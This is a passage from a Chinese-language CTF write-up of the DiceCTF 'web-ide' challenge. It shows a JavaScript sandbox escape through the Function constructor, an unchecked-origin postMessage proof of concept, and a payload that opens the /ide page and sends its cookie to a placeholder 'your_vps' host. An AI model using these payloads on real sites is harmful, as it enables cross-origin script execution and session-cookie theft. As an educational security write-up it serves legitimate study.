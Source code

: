 所以我们需要绕过这个限制，根据以往的绕过沙箱的老套路，我们可以尝试传入一个 window 对象，通过`"".constructor.constructor("return this")()`获取到 window 对象，我们可以直接在其中执行 js 代码，例如：

```
"".constructor.constructor("console.log(window.location)")()
```

因为 sandbox.html 在接受 message 没有验证 origin ，所以我们可以自己本地弄一个页面`postMessage`验证是否是成功在他的域名上执行了 js 代码：

```
&lt;iframe
        id="f"
        src="https://web-ide-v2.dicec.tf/sandbox.html"
        sandbox="allow-scripts"
        frameborder="0"
        &gt;&lt;/iframe&gt;
&lt;script&gt;
  f.addEventListener("load", () =&gt; `{`
    f.contentWindow.postMessage(
      `"".constructor.constructor("console.log(window.location)")()`,
      "*"
    );
  `}`);
&lt;/script&gt;
```

所以根据下图的实验结果显示，我们是可以绕过了其 sandbox 成功执行了 js 代码

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c8572fd66def423d.png)

接下来我们就需要看看怎么获取 flag 了，在题目附件中我们看到：

```
return res.cookie('token', `dice`{`$`{`process.env.FLAG`}``}``, `{`
  path: '/ide',
  sameSite: 'none',
  secure: true
`}`).redirect('/ide/');
```

这里光绕过 sandbox 执行 js 还不够，还需要在 /ide 路径下执行，否则在 sanbox 执行的 js 不能直接获取到 /ide 路径下的 cookie ，接下来我想到的非预期就是通过 sandbox 使用`window.open`打开一个 /ide 页面，然后再获取其 cookie ，大致代码如下：

```
var opener = window.open("https://web-ide.dicec.tf/sandbox.html");
setTimeout(function () `{`
  var data = `"".constructor.constructor('var opener = window.open("https://web-ide.dicec.tf/ide/");setTimeout(function()`{`window.location = "https://your_vps/?a="+ encodeURIComponent(opener.document.cookie);`}`,1000)')()`;
  opener.postMessage(data, "*");
`}`, 1000);
```

其中`setTimeout`是为了等页面加载出来，比较懒的做法。直接在你的 vps 上放置含有如上 js 代码的 html 页面，让 admin 访问你的页面，就可以收到 cookie 了。

这里如果你直接用 chrome 来试的话会因为没有用户交互被直接拦截弹窗，但是我试的时候用的是 burp 自带的 chromium ，而且题目可能也没处理好弹窗限制，导致了这个非预期。
